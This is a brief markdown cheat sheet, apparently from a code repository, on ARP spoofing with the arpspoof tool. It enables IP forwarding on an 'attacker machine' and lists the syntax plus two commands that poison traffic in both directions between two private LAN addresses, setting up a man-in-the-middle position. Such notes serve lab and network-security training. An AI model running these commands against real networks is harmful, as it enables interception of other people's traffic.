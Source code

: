 # Performing ARP Spoofing with arpspoof

## Activating IP Forwarding on Attacker Machine
echo 1 > /proc/sys/net/ipv4/ip_forward

## Running arpspoof 
- Syntax
```
arpspoof -i <interface> -t <target_ip> <victim_ip>
```
- Execution Commands
```
arpspoof -i eth0 -t 192.168.4.151 192.168.4.199
arpspoof -i eth0 -t 192.168.4.199 192.168.4.151
```